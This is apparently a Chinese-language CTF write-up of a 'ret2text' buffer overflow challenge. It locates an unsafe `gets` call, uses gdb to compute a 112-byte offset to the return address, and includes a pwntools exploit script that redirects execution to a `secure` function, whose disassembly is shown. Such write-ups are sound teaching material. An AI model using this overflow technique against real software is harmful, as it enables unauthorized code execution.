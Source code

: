 注意到不安全函数 `gets` 调用，计算 `lea` 后参数应该是 `0x1c(%esp)`，也就是栈顶往下28个字节。观察函数序言部分，`add    $0xffffff80,%esp` 分配了 128 个字节大小的栈空间，128-28=100 。初步猜测 `gets` 参数长度 100 字节。输入大于 100 即造成溢出。

然后我们寻找到想要返回的目标地址：

```assembly
080485fd <secure>:
    ... 略
```

gdb 调试计算 `0x1c(%esp)` 到返回地址的距离。

返回地址在 `0xffffd24c`，`0x1c(%esp)` 是 `0xffffd1dc`，相减得 112 。

尝试写出 exploit。

```python
import pwn
import struct

p = pwn.gdb.debug('bin/ret2text',
                 '''
                 b main
                 continue
                 ''')
print(p.recv().decode())
p.send(b'A' * 112 + struct.pack('<I', 0x080485fd))
print(p.recv().decode())
p.interactive()
```

调试发现段错误，继续阅读 `secure` 函数的代码。

```assembly
080485fd <secure>:
 80485fd:	55                   	push   %ebp
 80485fe:	89 e5                	mov    %esp,%ebp
 8048600:	83 ec 28             	sub    $0x28,%esp
 8048603:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 804860a:	e8 61 fe ff ff       	call   8048470 <time@plt>
 804860f:	89 04 24             	mov    %eax,(%esp)
 8048612:	e8 99 fe ff ff       	call   80484b0 <srand@plt>
 8048617:	e8 c4 fe ff ff       	call   80484e0 <rand@plt>
 804861c:	89 45 f4             	mov    %eax,-0xc(%ebp)
 804861f:	8d 45 f0             	lea    -0x10(%ebp),%eax
 8048622:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048626:	c7 04 24 60 87 04 08 	movl   $0x8048760,(%esp)
 804862d:	e8 be fe ff ff       	call   80484f0 <__isoc99_scanf@plt>
 8048632:	8b 45 f0             	mov    -0x10(%ebp),%eax
 8048635:	3b 45 f4             	cmp    -0xc(%ebp),%eax
 8048638:	75 0c                	jne    8048646 <secure+0x49>
 804863a:	c7 04 24 63 87 04 08 	movl   $0x8048763,(%esp)
 8048641:	e8 4a fe ff ff       	call   8048490 <system@plt>
 8048646:	c9                   	leave  
 8048647:	c3                   	ret    
```
